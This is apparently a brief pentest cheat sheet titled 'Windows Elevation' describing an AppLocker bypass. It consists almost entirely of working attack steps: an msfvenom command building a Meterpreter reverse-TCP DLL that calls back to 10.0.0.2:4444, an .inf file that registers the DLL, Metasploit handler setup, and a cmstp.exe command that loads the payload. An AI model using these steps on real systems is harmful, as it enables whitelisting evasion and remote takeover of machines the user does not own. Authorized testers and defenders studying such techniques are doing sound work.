# Windows Elevation



### AppLocker Bypass

Uses cmstp.exe to execute dll from an .inf file.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.2 LPORT=4444 -f dll &amp;gt; /root/Desktop/pentestlab.dll
```

make an inf file

```text
[version]
Signature=$chicago$
AdvancedINF=2.5

[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection

[RegisterOCXSection]
C:\Users\test.PENTESTLAB\pentestlab.dll

[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="Pentestlab"
ShortSvcName="Pentestlab"
```

setup multihandler

```bash
msf> user exploit/multi/handler
> set payload windows/x64/meterpreter/reverse_tcp
> set LHOST
> set LPORT
> exploit
```

Install the malicious dll

```text
cmstp.exe /s cmstp.inf
```

